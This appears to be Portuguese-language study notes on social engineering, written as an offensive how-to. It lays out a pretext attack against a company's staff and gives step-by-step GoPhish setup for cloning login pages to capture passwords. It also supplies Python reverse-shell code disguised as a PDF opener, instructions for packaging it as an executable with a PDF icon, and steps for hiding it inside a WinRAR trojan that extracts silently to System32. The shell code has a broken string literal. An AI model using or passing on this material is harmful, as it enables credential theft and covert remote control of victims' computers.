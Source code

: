 # Engenharia Social

### Como Fazer?  
- Definir o objetivo  
Acessar página falsa para roubo de credenciais  
- Estudar o alvo  
Coletar informações da empresa, personificar colaborador, e-mail etc.  
- Criar o contexto (Método)  
O acesso da conta da vítima no sistema (alvo) está suspeito.
- Criar a sua persona (Quem você será)  
José dos Santos - Coordenador do departamento de TI
- Definir a melhor abordagem (Tipo)  
Enviar e-mail sem link e anexo depois enviar e-mail com link em um doc.  
- Pensar em todas as possibilidades de erros e problemas  
Não clicar, não responder, reportar a segurança.  
- Executar o ataque  
Durante horário comercial, final da tarde.  

## Campanhas de Phising    
Vamos utilizar a ferramenta [GoPhising](https://getgophish.com/) para realizar uma campanha.  
após o download acesse o arquivo `config.json` e informe seu IP no admin_server.  

Crie um novo grupo com os usuários alvos em **Users & Groups** e crie um novo template de e-mail que será enviado em **Email Templates**.  
Depois podemos criar a página falsa que será usada em **Landing Pages**.  
Em **Sending Profiles** devemos configurar o perfil do remetente do e-mail e o servidor de SMTP que irá fazer o envio.  

**Utilizando contas g-mail como remetente:** Nas configurações do gmail, habilite a opção **Less secure app access** e desabilite o **2 Step Verification**.  

Após todas as configurações, crie uma nova camapanha em **Campaigns**.  

### Criando Templates de E-mails    
No gmail podemos ir no e-mail que gostariamos de transformar em template, acessar a opção **show original** e copiar o e-mail.  
Depois em **Email Templates** utilizamos a opção **Import Email**.  

### Criando Templates de Sites    
Para criar um template igual a outro site utilize a opção **Savar Como** do navegador e faça uma cópia da página.  
Depois suba um servidor web na pasta do site baixado e utilize a opção **Import Site** para importar a página do servidor local, marque as opções de **Capture Submitted Data** e **Capture Passwords**, e configure a página de redirecionamento da vítima.  
Sempre verifique os controles de formulário das páginas antes de disparar a campanha.  

## Shell com PDF Forjado (Código Indetectável)  

```
import socket,os

# Incluir a abertura de um link PDF
os.popen ('explorer $LINK_PDF')

ip = "19.168.0.200
porta = 80

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

while True:
    cmd = s.recv(1024)
    for comando in os.popen(cmd):
        s.send(comando)
```

Utilizando o `pyinstaller` podemos converter o código python em executável.  
```
 pyinstaller $FILE --onefile --windowed --icon=pdf.ico
```

Abra a porta na máquina atacante e execute o arquivo no alvo.  

## Cavalo de Tróia  
Para criar um cavalo de tróia iremos utilizar o código criado em Shell com PDF Forjado e outra aplicação que será mesclada.  
Utilize o WinRAR para compactar o exploit e o aplicativo original e marque a opção **Create SFX archive** e em avançado faça as seguinte configurações:  

- **General:**  
Patch to extract: **C:\Windows\System32\\**   
- **Setup:**  
Run after extraction: **Primeiro o original e depois o exploit**  
- **Modes:**  
Marcar: **Hide all**  
- **Update:**  
Overwrite mode: **Overwrite all files**  
- **Test and icon:**  
Escolha o íconedo executavel    

## Referencias:  

### Livros:  
- Mitnick - A Arte de Anganar  
- A Arte de Invadir  

### Filmes:  
- Prenda-me Se For Capaz  
- VIPs 


